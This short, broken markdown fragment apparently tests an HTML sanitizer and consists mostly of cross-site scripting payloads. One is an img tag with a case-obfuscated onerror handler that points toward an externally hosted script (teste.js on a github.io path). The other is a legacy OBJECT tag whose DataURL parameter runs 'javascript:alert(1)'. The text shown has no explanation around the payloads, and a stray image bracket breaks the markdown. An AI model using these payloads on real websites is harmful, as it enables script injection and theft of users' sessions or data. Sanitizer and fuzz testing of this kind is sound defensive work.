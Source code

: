 ![

<img src="" O/nErroR="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<OBJECT CLASSID="clsid:333C7BC4-460F-11D0-BC04-0080C7055A83"><PARAM NAME="DataURL" VALUE="javascript:alert(1)"></OBJECT>

](()
